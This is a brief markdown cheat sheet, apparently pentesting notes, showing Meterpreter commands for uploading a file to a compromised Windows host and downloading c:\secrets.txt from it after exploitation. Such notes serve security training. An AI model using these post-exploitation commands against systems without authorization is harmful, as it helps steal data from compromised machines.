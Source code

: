 # Metasploit

## Upload Files after Exploitation within Meterpreter

```bash
upload /root/files/secrets.txt c:\\ #(uploads to c drive)
```

## Download Files after Exploitation within Meterpreter

```bash
download c:\secrets.txt secrets.txt
```
